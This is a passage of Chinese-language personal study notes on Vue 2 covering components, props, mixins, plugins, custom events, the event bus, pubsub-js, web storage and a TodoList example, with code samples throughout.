    // 全局注册组件-所有的vm都可以使用hello了
    Vue.component('hello',hello)

    // 创建vm
    const vm = new Vue({
        el: '#root',
        // 第二部 注册组件  -- 局部注册
        components: {
            /* school: school,
            student: student, */
            school,
            student,
        }
    })

    const vm2 = new Vue({
        el: '#root2',
    })
</script>
```

### 组件注意事项

1. 几个注意点：
   1. 关于组件名:

      1. 一个单词组成：
         - 第一种写法(首字母小写)：school
         - 第二种写法(首字母大写)：School
      2. 多个单词组成：
         - 第一种写法(kebab-case命名)：my-school
         - 第二种写法(CamelCase命名)：MySchool (需要Vue脚手架支持)
      3. 备注：
         - 组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。
         - 可以使用name配置项指定组件在开发者工具中呈现的名字。
   2. 关于组件标签:

      1. 第一种写法：`<school></school>`
      2. 第二种写法：`<school/>`
      3. 备注：不用使用脚手架时，`<school/>`会导致后续组件不能渲染。
   3. 一个简写方式：

      - const school = Vue.extend(options) 可简写为：const school = options

```html
<div id="root">
        <h1>{{msg}}</h1>
        <!-- <MySchool></MySchool> -->
        <my-school></my-school>
        <my-school />
    </div>
</body>

<script>
    /* const school = Vue.extend({
        // name: 'ZZMR',
        template: `
            <div>
                <h2>学校名称 {{name}}</h2>
                <h2>学校地址 {{address}}</h2>
            </div>
        `,
        data() {
            return {
                name: 'ZZMR',
                address: 'P'
            }
        }
    }) */

    // 简写
    const school = {
        // name: 'ZZMR',
        template: `
            <div>
                <h2>学校名称 {{name}}</h2>
                <h2>学校地址 {{address}}</h2>
            </div>
        `,
        data() {
            return {
                name: 'ZZMR',
                address: 'P'
            }
        }
    }

    const vm = new Vue({
        el: '#root',
        components: {
            'my-school': school
            // MySchool: school
        },
        data: {
            msg: '欢迎'
        }
    })
</script>
```

### 组件的嵌套

```html
<!--     <div id="root">
        <my-school></my-school>
        <hello></hello>
    </div> -->
    <div id="root">
        <!-- <app></app> -->
    </div>
</body>

<script>

    // 创建student组件
    const student = {
        // name: 'ZZMR',
        template: `
            <div>
                <h2>学校姓名 {{name}}</h2>
                <h2>学生年龄 {{age}}</h2>
            </div>
        `,
        data() {
            return {
                name: '张三',
                age: 18
            }
        }
    }


    // 创建school组件
    const school = {
        // name: 'ZZMR',
        template: `
            <div>
                <h2>学校名称 {{name}}</h2>
                <h2>学校地址 {{address}}</h2>
                <student></student>
            </div>
        `,
        data() {
            return {
                name: 'ZZMR',
                address: 'P'
            }
        },
        // 注册组件:(局部)
        components: {
            student
        }
    }

    // 定义一个hello组件
    const hello = {
        template: `
            <h1>{{msg}}</h1>
        `,
        data() {
            return {
                msg: 'hello欢迎'
            }
        }
    }

    // 定义一个app组件
    const app = {
        template: `
            <div>
                <school></school>  
                <hello></hello>  
            </div>
        `,
        components: {
            school,
            hello,
        }
    }


    // 创建vm
    const vm = new Vue({
        template: '<app></app>',
        el: '#root',
        // 注册组件(局部)
        components: {
            /* 'my-school': school,
            // MySchool: school
            hello, */
            app
        },
    })
</script>
```

就是嵌套啊,**注意子组件要在父组件之前定义好,不然会报错**

### VueComponent构造函数

1. school组件本质是一个名为VueComponent的构造函数,且不是程序定义的,是Vue.extend生成的
2. 我们只需要些\<school\>或\<school\>\</school\>,Vue解析时会帮我们创建shool组件的实例对象,即Vue帮我们执行的: new VueComponent(options)
3. 特别注意:每次调用Vue.extend,返回的都是一个**全新**的VueComponent
4. 关于this指向

   - 组件配置中,data函数,methods函数,watch中的函数,computed中的函数,它们的this均是**VueComponent实例对象**
   - new Vue(options)配置中,data函数,methods中的函数,watch中的函数,computed中的函数,他们的this均是**Vue实例对象**
5. VueComponent的实例对象,以后简称vc(也可称之为:组件实例对象)

```html
<div id="root">
        <school></school>
        <hello></hello>
    </div>
</body>

<script>
    // 创建school组件
    const school = Vue.extend({
        template: `
            <div>
                <h2>学校名称 {{name}}</h2>
                <h2>学校地址 {{address}}</h2>
            </div>
        `,
        data() {
            return {
                name: 'ZZMR',
                address: 'P'
            }
        }
    })

    // 定义一个hello组件
    const hello = Vue.extend({
        template: `
        <h2>{{msg}}</h2>  
        `,
        data() {
            return {
                msg: '你好'
            }
        }

    })

    console.log('@', school)
    console.log('#', hello)

    const vm = new Vue({
        el: '#root',
        components: {
            school, hello
        }
    })
</script>
```

### 内置关系

```html
<!-- 
        1. 一个重要的内置关系 VueComponent.prototype.__proto__ === Vue.prototype
        2. 为什么要有这个关系: 让组件实例对象(vc)可以访问到Vue原型上的属性,方法
     -->

    <div id="root">
        <school></school>
    </div>
</body>

<script>
    // 创建school组件
    const school = Vue.extend({
        template: `
            <div>
                <h2>学校名称 {{name}}</h2>
                <h2>学校地址 {{address}}</h2>
            </div>
        `,
        data() {
            return {
                name: 'ZZMR',
                address: 'P'
            }
        }
    })

    // 创建一个vm
    const vm = new Vue({
        el: '#root',
        data: {
            msg: '你好'
        },
        components:{
            school
        }
    })

    console.log(school.prototype.__proto__ === Vue.prototype)

    // 定义一个构造函数
    /* function Demo() {
        this.a = 1,
            this.b = 2
    }

    // 创建一个Demo的实例对象
    const d = new Demo()

    console.log(Demo.prototype)// 显式原型属性
    console.log(d.__proto__)//隐式原型属性
    // 都是原型对象

    // 程序员通过显式原型属性操作原型对象，追加一个x属性
    Demo.prototype.x = 99
    console.log(d.x)
    console.log(Demo.prototype === d.__proto__) */


</script>
```

## Vue脚手架

安装还挺简单的,主要就是注意要在管理员环境下run

创建一个vue项目:

```
vue create projectName
```

默认引入的是精简版的Vue

```json
  "module": "dist/vue.runtime.esm.js",
```

精简版的Vue精简掉了模板解析器,所以在解析模板时要使用render()

```js
new Vue({
  el: '#app',
  render: h => h(App),
})
```

使用了简写模式

**关于不同版本的Vue**

1. vue.js与vue.runtime.xxx.js的区别
   - vue.js是完整版的Vue,包含:核心功能+模板解析器
   - vue.runtime.xxx.js是运行版的Vue,只包含:核心功能:没有模板解析器
2. 因为vue.runtime.xxx.js没有模板解析器,所以不能使用template配置项,需要使用render函数接收到createElement函数去指定具体内容

### 修改默认配置

都是在vue.config.js里面

1. 修改入口js(在最大的大括号下)

```js
  pages: {
    index: {
      // 入口
      entry: 'src/main.js',
    }
  }
```

1. 使用vue inspect > output.js可以查看到Vue脚手架的默认配置。
2. 使用vue.config.js可以对脚手架进行个性化定制，详情见：https://cli.vuejs.org/zh

### 脚手架文件结构

    ├── node_modules
	├── public
	│   ├── favicon.ico: 页签图标
	│   └── index.html: 主页面
	├── src
	│   ├── assets: 存放静态资源
	│   │   └── logo.png
	│   │── component: 存放组件
	│   │   └── HelloWorld.vue
	│   │── App.vue: 汇总所有组件
	│   │── main.js: 入口文件
	├── .gitignore: git版本管制忽略的配置
	├── babel.config.js: babel的配置文件
	├── package.json: 应用包配置文件
	├── README.md: 应用描述文件
	├── package-lock.json：包版本控制文件

### ref属性

1. 被用来给元素或子组件注册引用信息(id的替代者)
2. 应用在html标签上的是真实的DOM元素,应用在组件标签上是组件实例对象(vc)
3. 使用方式:
   - \<h1 ref="xxx"\>\</h1\> 或\<School ref="xxx"\>\</School\>
   - 获取 this.$refs.xxx

```js
<template>
    <div>
        <h1 v-text="msg" ref="title"></h1>
        <button @click="showDOM">点我输出上方的DOM元素</button>
        <School ref="sch" />

    </div>
</template>

<script>
// 引入School组件
import School from './components/School'

export default {
    name: 'App',
    data() {
        return {
            msg: '灼灼'
        }
    },
    components: {
        School,
    },
    methods: {
        showDOM() {
            // 获取的是vc(School组件的实例对象)
            console.log(this.$refs.sch)
            // 获取的真实DOM元素
            console.log(this.$refs.title)
        }
    }
}
</script>
```

### props配置

功能:让组件接受外部传过来的数据

1. 传递数据 \<Demo name="xxx"/>
2. 接收数据:

```js
// 三种接受方式
// 简单接收
    props: ['name', 'sex', 'age'],

    // 接收的同时对数据进行类型限制
    props: {
        name: String,
        age: Number,
        sex: String
    }

    // 接收的同时对数据进行类型限制和默认值的指定和必要性的限制
    props: {
        name: {
            type: String,   // name的类型是字符串
            required: true, //名字是必要的
        },
        age: {
            type: Number,
            default: 99,
        },
        sex: {
            type: String,
            required: true,
        }
    }
```

3. 备注: props是只读的,Vue底层会监视你对props的修改,如果进行了修改,就会发出警告,若业务需求确实需要修改,可以复制一份props的内容到data中,然后去修改data中的数据
   Student.vue

```js
<template>
    <div>
        <h1>{{ msg }}</h1>
        <h2>学生姓名 {{ name }}</h2>
        <h2>学校年龄 {{ myAge }}</h2>
        <h2>学校性别 {{ sex }}</h2>
        <button @click="updateAge">Age++</button>
    </div>
</template>

<script>
export default {
    name: 'Student',
    data() {
        return {
            msg: 'ZZMR里的世界',
            myAge: this.age,
        }
    },
    methods: {
        updateAge() {
            this.myAge++
        }
    },
    // 简单接收
    props: ['name', 'sex', 'age'],

    // 接收的同时对数据进行类型限制
    /* props: {
        name: String,
        age: Number,
        sex: String
    } */

    // 接收的同时对数据进行类型限制和默认值的指定和必要性的限制
    /* props: {
        name: {
            type: String,   // name的类型是字符串
            required: true, //名字是必要的
        },
        age: {
            type: Number,
            default: 99,
        },
        sex: {
            type: String,
            required: true,
        }
    } */

}
</script>
```

App.vue

```js
<template>
    <div>
        <Student name="李四" sex="女" :age="20" />
    </div>
</template>

<script>
import Student from './components/Student'

export default {
    name: 'App',
    components: {
        Student,
    },
}
</script>

<style>

</style>
```

### mixin

混合/混入

功能:可以把多个组件共用的配置提取成一个混入对象
使用方式:

- 第一步定义混合

```js
{
    data(){
        ...
    },
    methods:{
        ...
    }
}
```

- 第二步使用混入
  - 全局混入: Vue,mixin(xxx)
  - 局部混入: mixins: ['xxx']

> 全局混入

```js
// 引入Vue
import Vue from "vue"
// 引入app组件
import App from './App'

import { mixin, mixin2 } from "./mixin"

Vue.mixin(mixin)
Vue.mixin(mixin2)

// 关闭Vue的生产提示
Vue.config.productionTip = false
// 创建vm
const vm = new Vue({
    el: '#app',
    render: h => h(App)
})
```

mixin.js

```js
export const mixin = {
    methods: {
        showName() {
            alert(this.name)
        }
    },
    mounted() {
        console.log('Hello')
    }
}

export const mixin2 = {
    data() {
        return {
            x: 100,
            y: 200,
        }
    }
}
```

School.vue

```js
<template>
    <div>
        <h2 @click="showName">学校名称 {{ name }}</h2>
        <h2>学校地址 {{ address }}</h2>
    </div>
</template>

<script>
// 引入一个混合
// import { mixin, mixin2 } from '../mixin'
export default {
    name: 'School',
    data() {
        return {
            name: 'ZZMR',
            address: 'Peijing',
        }
    },
    // mixins: [mixin, mixin2]
}
</script>
```

### 插件

功能: 用于增强Vue
本质: 包含install方法的一个对象,install的第一个参数是Vue,第二个参数是插件使用者传递的数据

定义插件

```js
export default {
    install(Vue,x,y,z) {
        console.log(x,y,z)
        // 全局过滤器
        Vue.filter('mySlice', function (value) {
            return value.slice(0,4)
        })

        // 全局指令
        Vue.directive('fbind', {
            // 指令与元素成功绑定时
            bind(element, binding) {
                element.value = binding.value
            },
            // 指令所在元素被插入页面时调用
            inserted(element, binding) {
                element.focus()
            },
            // 指令所在的模板被重新解析时
            update(element, binding) {
                element.value = binding.value
                element.focus()
            }
        })

        // 定义混入
        Vue.mixin({
            data() {
                return {
                    x: 100,
                    y: 200,
                }
            }
        })

        // 给Vue原型上添加一个方法(vm和vc都可以用)
        Vue.prototype.hello = () => {
            alert('Hello H')
        }

    }
}
```

**使用插件**

```js
// 引入插件
import plugins from "./plugins"

// 使用插件
Vue.use(plugins)
```

### scoped

less样式是什么?没学过啊

不管了,先听着吧
也没啥啊,就是可以嵌套着写样式

```css
<style lang="less">
.demo {
    background-color: red;

    .zzmr {
        font-size: 40px;
    }
}
</style>
```

Scoped样式的作用:让样式在局部生效,防止冲突
写法: `<style scoped>`

```html
<style scoped>
.demo {
    background-color: blue;
}
</style>
```

### Todo-list案例

*写的有些乱了,还是看总结吧*

**组件化编码流程(通用)**

1. 实现静态组件:抽取组件,使用组件实现静态页面效果
2. 展示动态数据:
   - 数据的类型,名称是什么
   - 数据保存在哪个组件
3. 交互-从绑定事件监听开始

#### 完成静态组件

**复制and剪切**

> **App.vue**

```js
<template>
    <div id="root">
        <div class="todo-container">
            <div class="todo-wrap">
                <!-- 头部组件 -->
                <MyHeader></MyHeader>
                <MyList></MyList>
                <MyFooter></MyFooter>
            </div>
        </div>
    </div>
</template>

<script>
import MyHeader from './components/MyHeader.vue'
import MyList from './components/MyList.vue'
// import MyItem from './components/MyItem.vue'  这里就不用写Item了,因为Item是List的子组件
import MyFooter from './components/MyFooter.vue'

export default {
    name: 'App',
    components: {
        MyHeader, MyList, MyFooter
    },
}
</script>


<style>
/*base*/
body {
    background: #fff;
}

.btn {
    display: inline-block;
    padding: 4px 12px;
    margin-bottom: 0;
    font-size: 14px;
    line-height: 20px;
    text-align: center;
    vertical-align: middle;
    cursor: pointer;
    box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
    border-radius: 4px;
}

.btn-danger {
    color: #fff;
    background-color: #da4f49;
    border: 1px solid #bd362f;
}

.btn-danger:hover {
    color: #fff;
    background-color: #bd362f;
}

.btn:focus {
    outline: none;
}

.todo-container {
    width: 600px;
    margin: 0 auto;
}

.todo-container .todo-wrap {
    padding: 10px;
    border: 1px solid #ddd;
    border-radius: 5px;
}
</style>
```

> **MyHeader.vue**

```js
<template>
    <div class="todo-header">
        <input type="text" placeholder="请输入你的任务名称，按回车键确认" />
    </div>
</template>

<script>
export default {
    name: 'MyHeader'
}
</script>

<style scoped>
/*header*/
.todo-header input {
    width: 560px;
    height: 28px;
    font-size: 14px;
    border: 1px solid #ccc;
    border-radius: 4px;
    padding: 4px 7px;
}

.todo-header input:focus {
    outline: none;
    border-color: rgba(82, 168, 236, 0.8);
    box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```

> **MyList.vue**

```js
<template>
    <ul class="todo-main">
        <MyItem></MyItem>
        <MyItem></MyItem>
        <MyItem></MyItem>
        <MyItem></MyItem>
    </ul>
</template>

<script>
import MyItem from './MyItem.vue'
export default {
    name: 'MyList',
    components: {
        MyItem
    }
}
</script>
<style scoped>
/*main*/
.todo-main {
    margin-left: 0px;
    border: 1px solid #ddd;
    border-radius: 2px;
    padding: 0px;
}

.todo-empty {
    height: 40px;
    line-height: 40px;
    border: 1px solid #ddd;
    border-radius: 2px;
    padding-left: 5px;
    margin-top: 10px;
}
</style>
```

> **MyItem.vue**

```js
<template>
    <li>
        <label>
            <input type="checkbox" />
            <span>xxxxx</span>
        </label>
        <button class="btn btn-danger" style="display:none">删除</button>
    </li>
</template>

<script>
export default {
    name: 'MyItem'
}
</script>

<style scoped>
/*item*/
li {
    list-style: none;
    height: 36px;
    line-height: 36px;
    padding: 0 5px;
    border-bottom: 1px solid #ddd;
}

li label {
    float: left;
    cursor: pointer;
}

li label li input {
    vertical-align: middle;
    margin-right: 6px;
    position: relative;
    top: -1px;
}

li button {
    float: right;
    display: none;
    margin-top: 3px;
}

li:before {
    content: initial;
}

li:last-child {
    border-bottom: none;
}
</style>
```

> **MyFooter.vue**

```js
<template>
    <div class="todo-footer">
        <label>
            <input type="checkbox" />
        </label>
        <span>
            <span>已完成0</span> / 全部2
        </span>
        <button class="btn btn-danger">清除已完成任务</button>
    </div>
</template>

<script>
export default {
    name: 'MyFooter'
}
</script>

<style scoped>
/*footer*/
.todo-footer {
    height: 40px;
    line-height: 40px;
    padding-left: 6px;
    margin-top: 5px;
}

.todo-footer label {
    display: inline-block;
    margin-right: 20px;
    cursor: pointer;
}

.todo-footer label input {
    position: relative;
    top: -1px;
    vertical-align: middle;
    margin-right: 5px;
}

.todo-footer button {
    float: right;
    margin-top: 5px;
}
</style>
```

#### 展示动态数据

这个有一个挺重要的点,**子组件给父组件传递数据**
要求父组件声明一个函数,传给子组件,然后子组件调用

<!--  -->


代码挺多的,到最后再粘贴吧

还有就是注意不要修改props的值
就是Vue没有检测到,也不要修改

#### 总结

写完了,一个小小的案例内容还是挺多的

1. 组件化编程流程
   1. 拆分静态组件:组件要按照功能点拆分,命名不要与html元素冲突
   2. 实现组件:考虑好数据的存放位置,数据是一个组件在用,还是一些组件在用
      - 一个组件在用:放在组件自身即可
      - 一些组件在用,放在它们共同的父组件上
   3. 实现交互: 从绑定事件开始
2. props适用于:
   1. 父组件 ===> 子组件 通信
   2. 子组件 ===> 父组件 通信(要求父先给子一个函数)
3. 使用v-model时要切记: v-model绑定的值不能是props传过来的值,因为props是不可以修改的
4. props传过来的若是对象类型的值,修改对象中的属性时Vue不会报错,但是不推荐这么做

### 浏览器的本地存储

localStorage.html
**localStorage的基本使用**

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>localStorage</title>
</head>

<body>
    <h2>localStorage</h2>
    <button onclick="saveData()">点我保存一个数据</button>
    <button onclick="readData()">点我读取一个数据</button>
    <button onclick="deleteData()">点我删除一个数据</button><br><br>
    <button onclick="deleteAllData()">点我清除数据</button>

    <script>

        let p = { name: '张三', age: 18 }

        function saveData() {
            localStorage.setItem('msg', 'hello')
            localStorage.setItem('person', JSON.stringify(p))
        }

        function readData() {
            console.log(localStorage.getItem('msg'))
            const result = localStorage.getItem('person')
            console.log(JSON.parse(result))
            // console.log('@222',localStorage.getItem('msg111'))
        }

        function deleteData() {
            localStorage.removeItem('msg')
        }

        function deleteAllData() {
            localStorage.clear()
        }
    </script>
</body>

</html>
```

SessionStorage.html

**sessionStorage的基本使用**

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>sessionStorage</title>
</head>

<body>
    <h2>sessionStorage</h2>
    <button onclick="saveData()">点我保存一个数据</button>
    <button onclick="readData()">点我读取一个数据</button>
    <button onclick="deleteData()">点我删除一个数据</button><br><br>
    <button onclick="deleteAllData()">点我清除数据</button>

    <script>

        let p = { name: '张三', age: 18 }

        function saveData() {
            sessionStorage.setItem('msg', 'hello')
            sessionStorage.setItem('person', JSON.stringify(p))
        }

        function readData() {
            console.log(sessionStorage.getItem('msg'))
            const result = sessionStorage.getItem('person')
            console.log(JSON.parse(result))
            // console.log('@222',sessionStorage.getItem('msg111'))
        }

        function deleteData() {
            sessionStorage.removeItem('msg')
        }

        function deleteAllData() {
            sessionStorage.clear()
        }
    </script>
</body>

</html>
```

> **总结**
> 浏览器本地存储-也叫WebStorage

1. 存储内容大小一般支持5MB左右(不同浏览器可能还不一样)
2. 浏览器端通过Window.sessionStorage和Window.localStorage属性来实现本地存储机制
3. 相关API
   - xxxxxStorage.setItem('key','value'),该方法接收一个键值对作为参数,如果键名存在,则会进行覆盖
   - xxxxxStorage.getItem('key'),根据传入的键,返回键对应的值
   - xxxxxStorage.removeItem('key'),根据key删除元素
   - xxxxxStorage.clear(),清空存储中的所有数据
4. 备注
   - SessionStorage存储的内容会随着浏览器窗口关闭而消失
   - LocalStorage的内容,需要手动清除才会消失
   - xxxxxStorage.getItem('key'),如果key不存在,那么getItem返回值是null
   - JSON.parse(null)的结果仍然是null

### 组件自定义事件

直接上代码,后面会有总结

#### 组件自定义事件-绑定

Student.vue

```js
<template>
    <div class="student">
        <h2>学生姓名 {{ name }}</h2>
        <h2>学生性别 {{ sex }}</h2>
        <button @click="sendStudentName">把学生名给App</button>
    </div>
</template>

<script>

export default {
    name: 'Student',
    data() {
        return {
            name: 'zhangsan',
            sex: '男',
        }
    },
    methods: {
        sendStudentName() {
            // 触发Student组件实例身上的zzmr事件
            this.$emit('zzmr', this.name)
        }
    }

}
</script>

<style scoped>
.student {
    padding: 5px;
    background-color: blue;
    margin-top: 30px;
}
</style>
```

School.vue

```html
<template>
    <div class="school">
        <h2>学校名称 {{ name }}</h2>
        <h2>学校地址 {{ address }}</h2>
        <button @click="sendSchoolName">把学校名给App</button>
    </div>
</template>

<script>

export default {
    name: 'School',
    data() {
        return {
            name: 'ZZMR12345',
            address: 'Peijing',
        }
    },
    props: ['getSchoolName'],
    methods:{
        sendSchoolName(){
            this.getSchoolName(this.name)
        }
    }
}
</script>


<!-- <style lang="less"> -->
<style scoped>
.school {
    background-color: red;

    /* .zzmr {
        font-size: 40px;
    } */
}
</style>
```

App.vue

```js
<template>
    <div class="app">
        <h1>{{ msg }}</h1>
        <!-- 绑定一个自定义事件实现子给父传递数据(第一种写法,使用v-on) -->
        <!-- <Student v-on:zzmr="getStudentName" /> -->
        <Student @zzmr="getStudentName" />

        <!-- 绑定一个自定义事件实现子给父传递数据(第二种写法,使用ref) -->
        <!-- <Student ref="student"></Student> -->

        <hr>
        <!-- 通过父组件给子组件传递函数类型的props实现子给父传递数据 -->
        <School :getSchoolName="getSchoolName" />
    </div>
</template>

<script>
import Student from './components/Student'
import School from './components/School'

export default {
    name: 'App',
    data() {
        return {
            msg: 'Hello'
        }
    },
    components: {
        Student,
        School
    },
    methods: {
        getSchoolName(name) {
            console.log('App收到了学校名:', name)
        },
        getStudentName(name) {
            console.log('App收到了学生名:', name)
        }
    },
    mounted() {
        // 绑定自定义事件
        // this.$refs.student.$on('zzmr', this.getStudentName)
        // 一次性
        // this.$refs.student.$once('zzmr', this.getStudentName)

    }
}
</script>

<!-- 写了这个属性那app的样式就只能app用了,一般不会在app里加 -->
<!-- <style scoped> -->
<style>
.app {
    padding: 10px;
    background-color: pink;
}
</style>
```

#### 组件自定义事件-解绑

就是使用$off或者直接摧毁vc或者vm

#### 组件的自定义事件-总结

1. 一种组件间的通信方式,适用于: **子组件===>父组件**
2. 使用场景: A是父组件,B是子组件,B想给A传数据,那么就要在A中给B绑定自定义事件(**事件的回调在A中**)
3. 绑定自定义事件

   - 第一种方式,在父组件中 ``<Demo @zzmr="test"/>``或 ``<Demo v-on:zzmr="test"/>``
   - 第二种方式,在父组件中

   ```js
   <Demo ref="demo"/>
   ...
   mounted(){
       this.$refx.demo.$on('zzmr',this.test)
   }
   ```

   - 若想让自定义事件只能触发一次,可以使用once修饰符,或者$once方法
4. 触发自定义事件:``this.$emit('zzmr',数据)``
5. 解绑自定义事件:```this.$off('zzmr')
6. 组件上也可以绑定原生的DOM事件,需要使用native修饰符
7. 注意: 通过 ``this.$refs.demo.$on('zzmr',回调)``,绑定自定义事件,回调要么配置在methods中,要么使用箭头函数没否则this的指向会出问题

### TodoList案例-自定义事件

> 使用组件的自定义事件来修改TodoList案例的子传父数据的情景

基本就是把传递函数的地方改成了@
然后不用props接收了,只需要在原来调用函数的地方改成$emit

```js
        <MyFooter :todos="todos" @checkAllTodo="checkAllTodo" @clearAllTodoIfTrue="clearAllTodoIfTrue">
        </MyFooter>
                ...

        isAll: {
            get() {
                return this.doneTotal === this.total && this.total > 0
            },
            set(value) {
                // this.checkAllTodo(value)
                this.$emit('checkAllTodo', value)
            }
        }
```

### 全局事件总线

GlobalEventBus

1. 一种组件间通信的方式,适用于任意组件间的通信
2. 安装全局事件总线

```js
// 创建vm
const vm = new Vue({
    el: '#app',
    render: h => h(App),
    beforeCreate() {
        Vue.prototype.$bus = this //安装全局事件总线
    }
})
```

3. 使用事件总线

   1. 接收数据:A组件想要接受数据,则在A组件中给$bus绑定自定义事件,事件的回调留在A组件自身

   ```js
   // 接收数据
   mounted() {
       this.$bus.$on('hello', (data) => {
           console.log('我是School组件，收到了数据', data)
       })
   },
   ```

   2. 提供数据 ``this.$bus.$emit('hello', 数据)``
4. 最好在beforeDstroy钩子中,用$off去解绑当前组件用到的事件

```js
    beforeDestroy(){
        this.$bus.$off('hello')
    }
```

### 消息订阅与发布

要引入第三方库:pubsub-js

直接 ``npm i pubsub-js`` 就安装好了
然后在script里面引入(要在发送消息和订阅消息的组件里面都引入)

> **订阅消息的School**

```js

import pubsub from 'pubsub-js'
...


    mounted() {
        // 订阅消息
        this.pubId = pubsub.subscribe('hello', (msgName, data) => {
            console.log('有人发布了hello消息,hello消息的回调执行了')
            console.log('@', msgName, data)
            console.log(this) // 因为是箭头函数 ,所以这里的this是vc
        })
    },
    beforeDestroy() {
        // this.$bus.$off('hello')
        pubsub.unsubscribe(this.pubId)
    }
```

这就很简洁明了了,直接使用 ``pubsub.subscribe(消息名,回调)``
就完成了订阅消息,写在mounted钩子中,是为了让组件挂在完毕后就一直**听**是否有消息过来了,最后在组件销毁之前,解除订阅消息 ``pubsub.unsubscribe(消息id)``

> **发布消息的student**

```js
import pubsub from 'pubsub-js'
...

    methods: {
        sendStudentName() {
            pubsub.publish('hello',this.name)
        }
    }
```

就在要发送消息的地方写上 ``pubsub.publish(消息名,传送的数据)``
就可以了

> 总结

1. 一种组件间通信的方式,适用于**任意组件间通信**
2. 使用步骤

   1. 安装pubsub: ``npm i pubsub-js``
   2. 引入: ``import pubsub from 'pubsub-js'``
   3. 接收数据,A组件想接收数据,则在A组件中订阅消息,订阅的回调留在A组件自身(上面的是使用箭头函数,下面的是使用了一个函数来作为回调)

   ```js
   methods(){
       demo(data){...}
   }
   ...
   mounted(){
       this.pid = pubsub.subscribe('xxx',this.demo)// 订阅消息
   }
   ```

   4. 提供数据: ``pubsub.publish('xxx',数据)``
   5. 最好在beforeDestroy钩子中,用pubsub.unsubscribe(pid)去取消订阅

#### TodoList结合消息订阅与发布

只改了删除一个部分的

> show me the code

> **MyItem.vue**

```js
// 删除
        handleDelete(id) {
            if (confirm('确定删除吗')) {
                // this.$bus.$emit('deleteTodo', id)
                // 换成消息发布
                pubsub.publish('deleteTodo',id)
            }
        }
```

原来是放到事件总线中,现在换成了pubsub,发布消息

> **App.vue**

```js
    mounted(){
        this.$bus.$on('checkTodo',this.checkTodo)
        // this.$bus.$on('deleteTodo',this.deleteTodo)
        // 替换为消息订阅
        this.pid = pubsub.subscribe('deleteTodo',this.deleteTodo)
    },
    beforeDestroy(){
        this.$bus.$off('checkTodo')
        // this.$bus.$off('deleteTodo')
        pubsub.unsubscribe(pid)
    }

....
    // 删除一个todo
    deleteTodo(_,id) {
        /* this.todos = this.todos.filter((todo) => {
            return todo.id !== id
        }) */
        this.todos = this.todos.filter(todo => todo.id !== id)
    },
```

就是要注意这个delteTodo的形参了,因为订阅消息,接收到的数据是两个,一个是msgName,一个是数据(在这里面是id),但我们只要id,所以前面就用下划线占位

### TodoList添加编辑功能

#### nextTick

1. 语法: ``this.$nextTick(回调函数)``
2. 作用: 在下一次DOM更新结束后执行其回调
3. 什么时候用:当改变数据后,要基于更新后的DOM进行某些操作时,要在nextTick所指定的回调函数中执行

#### 编辑功能具体代码

> **MyItem.vue**

```js
<template>
    <li>
        <label>
            <!-- 也能实现功能,但是是通过修改props传来的数据进行修改的,违背了原则,所以不建议使用 -->
            <!-- <input type="checkbox" :checked="todo.done" @click="todo.done = !todo.done" /> -->
            <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)" />
            <span v-show="!todo.isEdit">{{ todo.title }}</span>
            <input type="text" v-show="todo.isEdit" :value="todo.title" @blur="handleBlur(todo, $event)"
                ref="inputTitle">
        </label>
        <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
        <button class="btn btn-edit" @click="handleEdit(todo)" v-show="!todo.isEdit">编辑</button>
    </li>
</template>

<script>
import pubsub from 'pubsub-js'

export default {
    name: 'MyItem',
    // 声明接收todo对象
    props: ['todo'],
    methods: {
        // 勾选/取消勾选
        handleCheck(id) {
            // 通知App组件将对应的todo对象的done值取反
            this.$bus.$emit('checkTodo', id)
        },
        // 删除
        handleDelete(id) {
            if (confirm('确定删除吗')) {
                // this.$bus.$emit('deleteTodo', id)
                // 换成消息发布
                pubsub.publish('deleteTodo', id)
            }
        },
        // 编辑
        handleEdit(todo) {
            // 编辑过一次,已经有isEdit属性,就不用再添加属性了
            if (todo.hasOwnProperty('isEdit')) {
                todo.isEdit = true
            } else {
                this.$set(todo, 'isEdit', true)
            }
            /* setInterval(() => {
                this.$refs.inputTitle.focus()
            }, 200) */
            // $nextTick() 会在dom节点更新完成之后再执行回调
            this.$nextTick(function () {
                this.$refs.inputTitle.focus()
            })
        },
        // 失去焦点回调(真真执行修改逻辑)
        handleBlur(todo, e) {
            todo.isEdit = false
            if (e.target.value.trim() === '') return alert('title不能为空')
            this.$bus.$emit('updateTodo', todo.id, e.target.value)
        }
    }
}
</script>

<style scoped>
/*item*/
li {
    list-style: none;
    height: 36px;
    line-height: 36px;
    padding: 0 5px;
    border-bottom: 1px solid #ddd;
}

li label {
    float: left;
    cursor: pointer;
}

li label li input {
    vertical-align: middle;
    margin-right: 6px;
    position: relative;
    top: -1px;
}

li button {
    float: right;
    display: none;
    margin-top: 3px;
}

li:before {
    content: initial;
}

li:last-child {
    border-bottom: none;
}

li:hover {
    background-color: green;
}

li:hover button {
    display: block;
